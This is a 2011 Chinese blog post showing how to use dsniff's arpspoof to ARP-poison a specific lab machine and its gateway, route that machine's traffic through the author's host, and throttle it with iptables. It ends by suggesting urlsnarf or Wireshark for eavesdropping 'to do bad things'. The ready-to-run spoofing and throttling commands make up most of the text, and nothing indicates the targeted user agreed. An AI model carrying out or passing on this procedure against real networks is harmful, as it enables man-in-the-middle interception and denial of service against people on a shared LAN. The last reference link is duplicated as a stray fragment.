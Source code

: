 ```yaml
---
author: admin
comments: true
date: 2011-11-07 19:16:51
layout: post
slug: linux-limit-p2p-ing-host
title: linux下限制局域网内部使用p2p软件的主机
wordpress_id: 1865
categories:
- 服务器
---
```


windows下有p2p终结者，linux下咱有dsniff，介绍：[here](http://monkey.org/~dugsong/dsniff/)，其的用途之一就是做arp欺骗，具体命令是arpspoof.

作用：
    
    arpspoof将局域网内的目标主机或者是所有主机的发送数据包通过ARP欺骗来重指向。<br></br>在使用交换机的局域网环境下是一个非常有效的方法来嗅探数据：)

注意：kernel的ip转发必须要提前打开

使用：
    
    arpspoof [-i interface] [-t target] host
    
    -i 用来指示要使用的网卡接口，一般是eth0,
    
    -t 用来指示要欺骗的目标主机，如果不表明则默认为局域网内部的所有主机
    
    host 你要截取数据包的主机，通常是网关

具体使用：

环境archlinux ,要限制的ip为192.168.0.29，本机ip为192.168.0.24,实验室网管为192.168.0.1

1 安装
    
    sudo pacman -S dsniff

2 开启内核转发和欺骗
    
    #echo 1 > /proc/sys/net/ipv4/ip_forward

#欺骗192.168.0.29，告诉这台机器网关192.168.0.1的MAC地址是自己(192.168.0.24)。
    
    $sudo arpspoof -i eth0 -t 192.168.0.29 192.168.0.1

#欺骗192.168.0.1，告诉网关192.168.0.29的MAC地址是自己(192.168.0.24)
    
    $sudo arpspoof -i eth0 -t 192.168.0.1 192.168.0.29

_192.168.0.29以为192.168.0.24就是192.168.0.1，192.168.0.1以为192.168.0.24就是192.168.0.29_

3 利用iptables开始限速

#192.168.0.29被限制每秒只能传输3个数据包了
    
    $sudo iptables -A FORWARD -s 192.168.0.29  -m limit --limit 3/s -j ACCEPT           <br></br>$sudo iptables -A FORWARD -d 192.168.0.29 -m limit --limit 3/s -j ACCEPT                  <br></br>$sudo iptables -A FORWARD -s 192.168.0.29  -j DROP                                                 <br></br>$sudo iptables -A FORWARD -d 192.168.0.29  -j DROP   

4 当然，如果你想干坏事的话可以用 urlsnarf 或者wireshark之类的。。。。恩

参考资料：

[http://microcai.gsalex.net/archives/2010/11/p2p-killer-for-linux.html](http://microcai.gsalex.net/archives/2010/11/p2p-killer-for-linux.html)

[http://www.yuanma.org/data/2006/0914/article_1536.htm](http://www.yuanma.org/data/2006/0914/article_1536.htm)
06/0914/article_1536.htm](http://www.yuanma.org/data/2006/0914/article_1536.htm)
